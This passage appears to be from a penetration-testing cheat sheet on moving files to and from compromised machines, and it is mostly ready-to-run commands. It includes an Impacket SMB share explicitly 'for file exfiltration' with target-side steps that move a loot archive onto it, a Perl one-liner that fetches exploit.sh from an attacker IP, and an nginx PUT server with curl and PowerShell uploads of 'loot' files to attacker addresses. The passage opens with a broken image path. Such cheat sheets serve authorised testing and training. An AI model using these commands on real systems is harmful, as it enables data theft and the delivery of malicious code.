 _(originally sourced from here:_ [_http://karceh.blogspot.com/2011/06/vbs-download-file-from-internet.html_](http://karceh.blogspot.com/2011/06/vbs-download-file-from-internet.html)_)_

### Impacket's smbserver.py

As always, the [impacket suite](https://github.com/SecureAuthCorp/impacket) shines. Use `smbserver.py` to open an SMB server on your host for file exfiltration:

```
./smbserver.py burmat_exfil ./loot -username burmat -password burmat

## from the target:
PS C:\> net use Q: \\10.1.1.123\burmat_exfil /user:burmat burmat
PS C:\> mv .\bh.zip Q:\bh.zip
PS C:\> net use Q: /delete
```

### PERL HTTP File Download

`perl -e 'use File::Fetch; my $ff=File::Fetch->new(uri => "http://10.10.10.11/exploit.sh"); my $file = $ff->fetch() or die $ff->error;'`

### NGINX + PUT

[Picked up from here](https://www.youtube.com/watch?v=ob9SgtFm6\_g) (thanks @ippsec), you can start a nginx server that can accept PUT requests for file transfer via HTTP:

```bash
root@kali:~ ❯ cat /etc/nginx/sites-enabled/file_upload
server {
    listen 8001 default_server;
    server_name burmat.co;
    location / {
        root /var/www/upload/;
        dav_methods PUT;
    }
}

root@kali:~ ❯ service nginx start
```

Issue a `PUT` request from a remote system to upload files to `/var/www/upload` on your system.

cURL:

```sh
curl -X PUT http://192.168.1.87:8001/l00t.txt -F "data=@/home/user/l00t.txt"
```

PowerShell:

{% code overflow="wrap" %}
```bash
Invoke-RestMethod -Method PUT -Uri "http://10.10.14.12:8001/l00t.txt" -Body $(Get-Content l00t.txt)
```
{% endcode %}
